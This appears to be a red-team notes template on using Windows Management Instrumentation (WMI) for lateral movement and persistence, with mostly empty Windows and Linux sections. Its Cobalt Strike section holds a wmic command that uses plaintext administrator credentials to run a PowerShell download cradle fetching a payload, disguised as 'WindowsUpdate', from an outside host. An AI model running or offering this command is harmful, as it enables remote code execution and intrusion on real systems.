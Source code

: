 ### Technical Overview
Windows Management Instrumentation (WMI) is Microsoft's implementation of the Web-Based Enterprise Management Model and can be used for a wide variety of tasks.

Since WMI has remoting capabilities, it can also be used for lateral movement. WMI used to be very hard to detect, but since sysmon introduced several event ID's that log WMI actions it is not as stealth as it once was.
###### OPSEC
WMI is loved by adversaries since it can be used as a trigger based mechanism to execute arbitrary code and is therefore an ideal persistence mechanism. 
- For example, trigger a C2 channel when the computer has been turned on for at least 1 hour

# C2 - Cobalt Strike

## Overview 

```markdown
```
## Enumeration 

```markdown
```

## Exploitation 

```powershell
    shell wmic /NODE:fs01 /user:"FS01\Administrator" /password: "sup3rs3cr3tP@ssw0rd!!" process call create "powershell IEX ((new-object net.webclient).downloadstring('http://10.130.4.100:8888/WindowsUpdate'))"

```

---
# Windows
## Overview 

```markdown
```
## Enumeration 

```markdown
```

## Exploitation 

```markdown
```

----
# Linux
## Overview 

```markdown
```
## Enumeration 

```markdown
```

## Exploitation 

```markdown
```

